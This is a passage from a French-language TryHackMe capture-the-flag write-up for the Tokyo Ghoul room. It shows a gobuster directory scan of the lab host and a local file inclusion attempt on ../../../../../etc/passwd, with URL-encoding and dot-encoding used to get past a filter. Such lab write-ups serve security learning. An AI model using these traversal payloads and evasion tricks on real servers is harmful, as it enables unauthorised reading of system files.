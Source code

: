 On va sur la page, elle nous dit de la scanner.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://tokyo-ghoul.thm/d1r3c70ry_center/ -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/claim                (Status: 301) [Size: 335] [--> http://tokyo-ghoul.thm/d1r3c70ry_center/claim/]
/index.html           (Status: 200) [Size: 312]                                        
```

On scanne la page ave gobuster on trouve /claim   

![page](./Task1-04.png)  

Quand on clique sur no ou yes on envoie un paramètre sur la page.   

![page](./Task1-05.png) 

On essaie de faire un exploit en lfi, mais il y a un bloquage.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ urlencode  ../../../../../etc/passwd
..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
tim@kali:~/Bureau/tryhackme/write-up$ echo '..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd' | sed 's/\./%2E/g'
%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
```

On encode notre url.   
